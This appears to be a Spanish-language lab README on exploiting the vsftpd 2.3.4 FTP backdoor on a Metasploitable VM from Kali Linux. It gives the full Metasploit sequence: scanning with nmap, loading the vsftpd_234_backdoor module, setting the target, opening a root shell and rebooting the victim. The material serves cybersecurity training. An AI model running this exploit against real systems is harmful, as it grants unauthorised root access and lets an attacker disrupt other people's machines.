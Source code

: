 # Ataque-FTP-vsftpd-2.3.4-con-Kali-y-Metasploit

## Ataque Simulado con Kali Linux: Explotación de Vulnerabilidad FTP vsftpd 2.3.4 Usando Metasploit

##  Descripción de la Práctica

En esta práctica, se asumirán los roles de atacante y víctima utilizando dos máquinas virtuales en red local. El **atacante** operará desde **Kali Linux**, una distribución diseñada para realizar auditorías de seguridad y pruebas de penetración, mientras que la **víctima** será una máquina **Metasploitable**, una máquina vulnerable deliberadamente, usada para fines de práctica en ciberseguridad.

El ataque se centrará en la explotación de un **servicio FTP** vulnerable, específicamente *vsftpd 2.3.4*, utilizando Metasploit para explotar esta vulnerabilidad y obtener acceso no autorizado a la máquina víctima con privilegios elevados.


### Pasos a seguir

1. **Iniciar el entorno virtual** 

Se iniciarán ambas máquinas (Kali Linux y Metasploitable) y se verificará la conectividad entre ellas a través de la red local, comprobando las direcciones IP respectivas.

(Kali Linux y Metasploitable) e **inicia sesión** en la máquina Metasploitable. 

   - **Credenciales**: 
   Usuario y contraseña son `msfadmin`.
   - Verifica la **IP** de la máquina Metasploitable.
   - También comprueba la **IP** de tu máquina Kali Linux.

   - **IP de Kali**: `172.26.16.204`
   - **IP de Metasploitable**: `172.26.16.217`

2. **En Kali Linux, abre un *terminal* y sigue estos pasos:**

   - Arranca el servicio de **PostgreSQL** con el siguiente comando:

     ```bash
     /etc/init.d/postgresql start
     ```
    ![kali](/img/K1.png)

    - Ver estado de **PostgreSQL**

        ![kali](/img/K2.png)

    - Actualiza la lista de paquetes con `apt update` y luego descarga e instala Metasploit con `apt install metasploit-framework`

        ![kali](/img/K3.png)   

    
   - Ejecuta el siguiente comando para iniciar **Metasploit**:

     ```bash
     msfconsole
     ```

     ![kali](/img/K4.png)


3. **Identificar la máquina a atacar**: Este paso generalmente se realiza con herramientas como **Nmap** o **Zenmap**, pero para ahorrar tiempo, podemos omitirlo ya que conocemos la IP de la víctima.

   - Si lo necesitas, aquí está el comando para escanear:

     ```bash
     nmap 172.26.16.217
     ```

4. **Escaneo de puertos y servicios en la víctima**: Utiliza Nmap para ver los puertos abiertos y los servicios que se están ejecutando.

   - Ejecuta el siguiente comando para buscar vulnerabilidades:

    `nmap  –sV  IP_VÍCTIMA`

     ```bash
     nmap -sV 172.26.16.217
     ```

   - Nos fijaremos en el puerto **21 (FTP)**, que está corriendo el servicio **vsftpd 2.3.4**

    ![kali](/img/K5.png)

    ![kali](/img/K5.2.png)



5. **Buscar un exploit para vsftpd 2.3.4**: Ahora utilizaremos Metasploit para encontrar el exploit correspondiente.

   - Usa el siguiente comando en **Metasploit**:

     ```bash
     search vsftpd_234
     ```
      ![kali](/img/K6.png)

   - Metasploit mostrará los exploits disponibles para la versión del servicio.

6. **Seleccionar el exploit**: Usaremos el exploit identificado en el paso anterior.

   - El comando para seleccionar el exploit en Metasploit es el siguiente:

     `use  exploit/SO/servicio/nombre_exploit`

     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     ```
        
    ![kali](/img/K7.png)

7. **Configurar opciones del exploit**: Verifica las opciones requeridas para el exploit con el siguiente comando:

   ```bash
   show options
   ```
    ![kali](/img/K8.png)

   Nos mostrará una lista de los servicios requeridos para que el exploit funcione, y los valores que en ese momento tiene cada servicio. En esta lista, solo necesitaremos dar valores a los servicios marcados como requeridos (columna “Required” marcada como “Yes”). En nuestro caso, tenemos que fijarnos en un servicio llamado RHOST, que aparecerá en blanco (el servicio RPORT ya tiene un valor asignado, y será el puerto 21, que es precisamente el puerto que queremos atacar, por tanto no habrá que tocarlo).

8. **Inyectar el payload:**
 En este caso, no es necesario inyectar un payload, ya que el exploit que estamos usando tiene uno por defecto. Si fuera necesario inyectar un payload, podrías listar los disponibles con el siguiente comando:

    ```bash
    show payloads
    ```
   
    - Luego, seleccionarías el payload adecuado con el comando:

    ```bash
    set PAYLOAD nombre_payload
    ```
    `set PAYLOAD payload/cmd/unix/interact`
      
    ![kali](/img/K9.png)
9. Por último, solo quedará ejecutar el exploit, con el comando `exploit` (o `run`). A partir de aquí, si todo ha ido bien, en unos segundos Metasploit mostrará un mensaje indicando que se ha abierto una sesión en un terminal de la máquina víctima (y lo hará como root). Puedes comprobar que estás en la máquina víctima tecleando comandos ls y cd para ver los archivos y directorios de la máquina víctima.

   ![kali](/img/K10.png)
   
11. Para ver con más claridad que tenemos el control de la máquina víctima, ejecuta un comando "reboot", y verás que...¡¡ La máquina víctima se reinicia!!.
    
   ![kali](/img/K11.png)

    
